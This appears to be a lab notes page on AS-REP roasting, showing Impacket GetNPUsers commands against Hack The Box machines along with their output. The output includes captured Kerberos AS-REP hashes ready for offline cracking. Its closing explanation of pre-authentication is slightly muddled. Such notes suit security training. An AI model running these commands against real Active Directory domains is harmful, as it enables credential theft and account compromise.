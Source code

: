 # AS-REP Roasting with GetNPUsers

## [Cracking Active Directory Passwords with AS-REP Roasting](https://blog.netwrix.com/2022/11/03/cracking_ad_password_with_as_rep_roasting/)

> ... steal the password hashes of user accounts that have Kerberos preauthentication disabled, which they can then attempt to crack offline.
> Using anonymous bind you can enumerate LDAP and get a list of valid usernames.
> Then, you may use the GetNPUsers script from the impacket to check which of these usernames has Kerberos pre-authentication disabled.
> This is called AS-REP-Roasting.

Box | Domain | IP 
-|-|-
Forest | htb.local | 10.10.10.161
BLACKFIELD | BLACKFIELD.local | 10.10.10.

### TL;DR
```
GetNPUsers htb.local/ -request
GetNPUsers htb.local/ -r
GetNPUsers htb.local/ -dc-ip $ip
GetNPUsers htb.local/ -dc-ip $ip -request
GetNPUsers htb.local/ -dc-ip $ip -r
GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
```


## Works with Forest, but not with Active
### HTB Forest vulnerable to ASREP, but not with HTB Active
```
$ impacket-GetNPUsers htb.local/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:09:07.367813  2023-08-02 11:47:00.513833  0x410200
```

### HTB Active is NOT vulnerable to ASREP
```
$ impacket-GetNPUsers active.htb/
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Error in searchRequest -> operationsError: 000004DC: LdapErr: DSID-0C09075A, comment: In order to perform this operation a successful bind must be completed on the connection., data 0, v1db1
```

### Common Mistake - Domain Name without "/" suffix
```
$ impacket-GetNPUsers htb.local  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

[-] Domain should be specified!
```

### Examples; HTB Forest
```
$ impacket-GetNPUsers htb.local/ -request  
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-02 13:10:42.227380  2023-08-02 11:47:00.513833  0x410200 

$krb5asrep$23$svc-alfresco@HTB.LOCAL:282f708038e3d413dcbb692377168a0c$a57ae2b2cd5cd99d5c063f53c3321feef6b6d805cf318cadeb5be31c297541b0cfaa35b0e447eed21def3b6c9f472d64cf381b51429abab7bea41cf769be50aaeed52dcce3e8c5f9c1b6686d62d2ca217ee369c810ad582a046fa5f093fa6f9891daf3e02b6b0c576b9b28fc37c8a615d499c7303497b21873cd9bdc1d01f69d628dd66bdf63cdae985a50f0d6dd30b9ecd59e6fd56610cf2a63bf58920ceff8c28a81c8ec0aedf3e68cee83986c094af2caa38423435923fcfecea279d816b5e601436a7b10e1b966771e7f8cb3cc5f3ada3c375f2c8f2fc1b1a4d658eb28d2307331eb653a
```

### GetNPUsers htb.local/ -dc-ip $ip
```
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200
```

### GetNPUsers htb.local/ -dc-ip $ip -request
```
C:\Tools\impacket-master\examples>python GetNPUsers.py htb.local/ -dc-ip $ip -request
Impacket v0.10.0 - Copyright 2022 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2023-08-01 02:30:31.919086  2023-07-31 18:08:17.247291  0x410200


$krb5asrep$23$svc-alfresco@HTB.LOCAL:725910cae0bc4d7afa0f322cf48c22ec$ea47da97143367e99e1f1ace94bef5f4b7d21f23e9496c27e51ae0cb498996b9581cc8fbcbe7ab10db77fbf3da7d27364f9ce868c64eed607c33df0b4d24a0e731fa9dce764e38c6dabaa9103c511771888f02e3c4e1e7bff80a245d78a4dd8e7c8dcf2e1c63e2c55932648bc09000f2e0227c5295d11845f6b0c5471e3246fa2d1ee3ba80f63eb0eef5b10067bfd1ec12f3a2dec5ada44bda4e5402bc3e25d8118e875def2b0798100065ca43f01f2823c758d0943bb54e5c8d20260b2cd4dedce4e8a4558eabee260f1008f33801e9e3bb8802c24065296c42c2c654e662450a05806dc400

C:\Tools\impacket-master\examples>
```

### Not all user 
$ GetNPUsers BLACKFIELD.local/ -usersfile valid-users.txt -r
Impacket v0.11.0 - Copyright 2023 Fortra

[-] User audit2020 doesn't have UF_DONT_REQUIRE_PREAUTH set
[-] User svc_backup doesn't have UF_DONT_REQUIRE_PREAUTH set
$krb5asrep$23$support@BLACKFIELD.LOCAL:f764e18d4bf1c000c1caba2c30a836e6$1fd948cf3592f7da94563cde9ffb2d7363c280284c1226c91a7cfa6bfeb8226fe8f2dfe2443d071e732d5cd25de24dd02024d1575b4db0353d8cbe54dcd5ca241f1a643462adaf97184522f0b2fd05fa6d19ce521b49d0a314a56f274e623caf478a7f0228eb9e5fc74bcdb98f4eaf567d4d28cfeb09dbe3291e5c5503cfd5738e9febd987cdff89d27fd2d0074eb9dc21d3fc42882b73c0b4873d8064c524e8d8f9ec57747c30deaa4a17b892d8905146c95f7429f72640ba6c179477c110ca5ca3396f6b7ed3ec77cc9de8de09435fe97e444dce3d9fc7310b6743809bf7b7193a90c45749b07fc4b3f8bc8ae9d39b41ebe7e3

"audit2020" and "svc_backup" are valid users. However, "UF_DONT_REQUIRE_PREAUTH" flag is not set for users "audit2020" and "svc_backup" so we can't get krb5asrep hash from them.

"UF_DONT_REQUIRE_PREAUTH" flag tells the Kerberos server not to require pre-authentication for the user. Without this flag set, the server will always require pre-authentication, which includes sending a krb5asrep message.